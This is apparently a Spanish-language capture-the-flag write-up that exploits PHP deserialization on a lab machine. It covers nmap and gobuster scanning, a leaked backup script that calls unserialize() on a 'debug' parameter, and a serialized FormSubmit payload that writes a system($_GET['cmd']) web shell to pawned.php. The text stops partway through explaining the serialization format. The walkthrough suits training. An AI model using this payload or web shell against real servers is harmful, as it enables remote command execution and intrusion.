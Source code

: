 ### Tags: `PHP` `deseralation` `motd`

# Escaneo (*22, 80*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/6807af1d-d607-4c41-a853-05012d700cf5)


# Port 80 **/** gobuster

Como vimos es un web de **apache por defecto** y por ende vamos a tirar un **Gobuster** para descubrir directorios

```ruby
gobuster dir -q -u http://10.10.225.96 -w /usr/share/wordlists/dirb/common.txt   
```

Encontramos un `/backup` y un `index.php`

![image](https://github.com/user-attachments/assets/5ca68162-e2c3-41f4-964e-e0491c9f9f22)

El `index.php` tiene esto:

![image](https://github.com/user-attachments/assets/3f770d4f-1b82-4f04-b745-8c2c91f4c278)

En el `/backup` nos descargamos este archivo a nuestra maquina

![image](https://github.com/user-attachments/assets/3b1e038f-721d-4a75-9977-b4272a6567f6)

Vemos que tenemos una pista en este mensaje de este codigo

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

        $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>
```

El código PHP toma el nombre, el correo electrónico y el comentario que se pasan en el GET mediante un formulario en la página. Utiliza esos valores para crear un mensaje que se escribe en el archivo `message.txt`cuando se destruye el objeto y podemos simplemente ingresar un `$_GET['debug']`parámetro de depuración con la entrada serializada y el código fuente lo deserializará.

![image](https://github.com/user-attachments/assets/b74e76db-6d2b-407e-9813-caa50984d355)

Lo que hacemos ahora es crearnos este **archivo.php**

```php
<?php
class FormSubmit{
        public $form_file = 'pawned.php';
        public $message = '<?php system($_GET["cmd"]); ?>';
}
$obj = new FormSubmit();
echo serialize($obj);
?>
```

Ahora lo probamos y nos da el ``objeto serializado`` ---> comando: `php <nombre_del_archivo>`

```php
O:10:"FormSubmit":2:{s:9:"form_file";s:10:"pawned.php";s:7:"message";s:30:"<?php system($_GET["cmd"]); ?>";}
```

- - `O`  significa objeto
- `O:10`  significa la longitud del nombre del objeto (es decir, ---> 10)
- `2:{`  significa que hay dos propiedades/atributos
- `s:9`  significa que nuestra propiedad/atributo es una cadena y tiene una longitud de 9 caracteres
- `s:9:"form_file";`  Longitud de 9 y nombre de la propiedad

















